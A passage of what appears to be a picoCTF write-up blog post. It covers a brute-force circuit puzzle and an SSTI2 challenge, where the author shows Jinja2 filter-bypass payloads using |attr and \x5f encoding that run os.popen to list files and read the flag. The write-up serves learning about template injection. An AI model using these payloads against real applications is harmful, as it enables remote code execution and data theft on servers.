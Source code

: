So I tried this trick:  
➡️ Connected **all 4 input nodes to all 4 output nodes** — no logic gates, just direct wiring.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*qoVSLAU9qnvcSJIjzkIO3Q.png)

Then I **kept submitting** the same circuit.  
After a few attempts… boom 💥

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*rmHymC4neJ7lFjK-hxYhAg.png)

> Flag: picoCTF{p4ch1nk0_f146_0n3_e947b9d7}

Sometimes, brute creativity wins.

**2. SSTI2**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dCPhkJkYlvjqQVHn6hqUqA.png)

To check for SSTI, I used a basic payload: `{{7*7}}`
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*yzVvqqspmU-5J7ldGWLEqQ.png)

Rendered `49`

Next, I confirmed **Jinja2** with: `{{7*'7'}}` -> 7777777

But advanced payloads like `{{''.__class__.__mro__}}` were blocked with a WAF message:  
**“Stop trying to break me >:(”**

Upon playing for a while i got to know that the server filtered: Dot (`.`) notation, Underscores (`_`), Brackets (`[]`), Keywords like `import`, `os`, etc.

So I used the following bypass techniques:

*   Replaced `.` with `|attr()`
*   Encoded `_` as `\x5f`
*   Replaced `[]` with `__getitem__`
*   Accessed `os` using:  
    `__import__('os').popen('ls').read()`

**Payload to List Files:**
<pre>
{{ request | attr('application') | attr('\x5fglobals\x5f')  
  | attr('\x5fgetitem\x5f')('\x5fbuiltins\x5f')  
  | attr('\x5fgetitem\x5f')('\x5fimport\x5f')('os')  
  | attr('popen')('ls') | attr('read')()  
}}
</pre>
**Output:**

`__pycache__ app.py flag requirements.txt`

**Payload to Read the Flag**
<pre>
{{ request | attr('application') | attr('\x5f\x5fglobals\x5f\x5f')  
  | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')  
  | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')  
  | attr('popen')('cat flag') | attr('read')()  
}}
</pre>
> picoCTF{sst1\_f1lt3r\_byp4ss\_7c3c6e7f}
